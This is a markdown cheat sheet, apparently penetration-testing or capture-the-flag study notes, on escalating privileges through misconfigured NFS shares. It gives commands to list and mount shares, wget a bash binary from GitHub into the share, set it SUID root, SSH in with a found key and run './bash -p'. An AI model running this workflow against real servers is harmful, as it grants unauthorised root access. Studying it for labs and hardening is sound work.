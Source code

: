 # NFS
NFS stands for "Network File System" and allows a system to share directories and files with others over a network. By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

## Workflow
1. Port scan with nmap
2. Enumerate accessible shares
3. Create a mount point
4. Mount the NFS share to the mount point
5. [Download](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash) or make a bash executable (The file must be owned by root)
6. Add the SUID bit and execution permission to the bash executable
7. SSH into the remote host (if SSH private key is found in the share)
8. Run the executable on the remote host

## NFS-Common
NFS-Common includes programs such as: lockd, statd, showmount, nfsstat, gssd, idmapd and mount.nfs.

### Listing NFS Shares
showmount -e [IP]  

### Create a mount point
mkdir [MOUNT POINT]

### Mounting NFS shares
sudo mount -t nfs [IP]:[SHARE] [MOUNT POINT] -nolock

- -t : Type of device to mount
- IP : The IP Address of the NFS server
- SHARE	: The name of a share in the remote host
- LOCAL DIR: The local directory to mount a share to
- -nolock	: Specifies not to use NLM locking

### Download or make a bash executable
sudo wget https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash?raw=true -O [MOUNT POINT]/bash

### Add the SUID bit and execution permission
cd [MOUNT POINT] && sudo chmod +xs bash

### SSH into the remote host
ssh -i [PRIVATE KEY] [USERNAME]@[HOSTNAME]

### Run the bash executable (with p persisting permission)
./bash -p
